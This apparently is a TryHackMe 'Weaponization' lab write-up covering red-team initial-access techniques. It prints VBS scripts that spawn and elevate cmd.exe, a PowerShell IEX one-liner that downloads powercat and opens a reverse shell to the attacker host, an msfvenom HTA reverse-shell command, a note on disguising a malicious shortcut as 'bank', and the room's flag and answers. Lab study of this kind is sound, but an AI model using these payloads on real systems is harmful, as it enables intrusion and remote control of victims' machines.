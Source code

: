 ```yaml
---
title: Weaponization   
author: CYB3RM3
name: CYB3RM3 | Weaponization  
date: 2021-12-26 21:50:07 +0100
categories: [TryHackMe, Initial Access]
tags: [Red Team, Weaponization]
---
```


Understand and explore common red teaming weaponization techniques. You will learn to build custom payloads using common methods seen in the industry to get initial access.

THM Room [https://tryhackme.com/room/weaponization](https://tryhackme.com/room/weaponization)


## TASK 1 : Introduction
### Let's deploy the target machine in the next task, and we'll get started with the Windows Script Host technique in the subsequent task ! 
No Answer

## TASK 2 : Deploy the Windows Machine 
### Deploy the attached Windows machine and connect to it via the RDP client. Once this is done, move to the next task. 
No Answer

## TASK 3 : Windows Scripting Host - WSH
### Try to replace the calc.exe binary to execute cmd.exe within the Windows machine. 
I tried two codes. Payloads.vbs to launch cmd.exe as user, payloads2.vbs for cmd administrator :

payloads.vbs
```console
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\cmd.exe " & WScript.ScriptFullName),0,True
```
{: .nolineno }

payloads2.vbs

```console
Set oShell = CreateObject("Shell.Application")
oShell.ShellExecute "cmd.exe", , , "runas", 1
```
{: .nolineno }

No Answer
## TASK 4 : An HTML Application - HTA 
### Now, apply what we discussed to receive a reverse connection using the user simulation machine in the Practice Arena task. 
Practiced and test different payload such as msfvenom command line directly or metasploit module. Get back multiple shell and offuscate link in shortcut on user's desktop and rename like "bank".

![Practice](/images/thm/weaponization/weaponization_1.png)
_Practice_

No Answer

## TASK 5 : Visual Basic for Application - VBA 
### Now replicate and apply what we discussed to get a reverse shell!

![HTA](/images/thm/weaponization/weaponization_2.png)
_HTA_

No Answer

## TASK 6 : PowerShell - PSH  
### Apply what you learned in this task. In the next task, we will discuss Command and Control frameworks! 

First, on attack machine :

```console
git clone https://github.com/besimorhino/powercat.git
cd powercat
python3 -m http.server 6666
```
{: .nolineno }

Then in another tab of terminal :

```console
nc -lnvp 1337
```
{: .nolineno }

On victim machine in cmd :

```console
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.188.37:6666/powercat.ps1');powercat -c 10.10.188.37 -p 1337 -e cmd"
```
{: .nolineno }

You'll now have a shell on your attack machine's listener !

![PSH](/images/thm/weaponization/weaponization_3.png)
_PSH_

No Answer

## TASK 7 : Command And Control - (C2 Or C&C) 
### Read the above. 
No Answer

## TASK 8 : Delivery Techniques
### Which method is used to distribute payloads to a victim at social events?
Answer : Web Delivery

## TASK 9 : Practice Arena 
###  What is the flag? 
Execute hta exploit for example :

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.188.37 LPORT=9933 -f hta-psh -o thm.hta
```
{: .nolineno }

Visiting url : http://10.10.188.37:666/thm.hta give us a reverse shell.

```console
type /Users/thm/Desktop/flag.txt
```
{: .nolineno }

Answer : THM{b4dbc2f16afdfe9579030a929b799719}